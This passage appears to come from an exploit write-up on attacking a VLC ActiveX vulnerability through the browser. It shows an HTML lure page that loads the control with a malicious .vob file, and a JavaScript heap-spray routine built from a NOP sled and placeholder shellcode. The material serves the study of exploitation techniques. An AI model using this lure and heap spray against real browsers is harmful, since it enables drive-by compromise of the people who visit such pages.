 ### Attack Vector: Web-Based Exploitation

The vulnerability becomes particularly dangerous when exploited through web browsers:

```html
<!-- Malicious HTML page triggering VLC ActiveX vulnerability -->
<!DOCTYPE html>
<html>
<head>
    <title>VLC ActiveX Exploit</title>
</head>
<body>
    <object classid="clsid:E23FE9C6-778E-49D4-B537-38FCDE4887D8">
        <param name="src" value="malicious.vob">
        <param name="autoplay" value="true">
    </object>
    
    <script>
        // JavaScript heap spray for reliable exploitation
        setupHeapSpray();
    </script>
</body>
</html>
```

## Heap Spray Technique

### JavaScript Heap Spray Implementation

Due to the web-based attack vector, **heap spraying** becomes essential for reliable exploitation:

```javascript
// Heap spray implementation for VLC ActiveX exploit
function setupHeapSpray() {
    var shellcode = unescape("%u4141%u4141..."); // Shellcode bytes
    var nop_sled = unescape("%u9090%u9090..."); // NOP sled
    
    // Create spray payload
    var spray_chunk = nop_sled + shellcode;
    
    // Pad to specific size for memory layout control
    while (spray_chunk.length < 0x10000) {
        spray_chunk += spray_chunk;
    }
    
    // Allocate multiple chunks to fill heap
    var spray_array = new Array();
    for (var i = 0; i < 1000; i++) {
        spray_array[i] = spray_chunk.substring(0, 0x10000 - 2);
    }
    
    return spray_array;
}
```
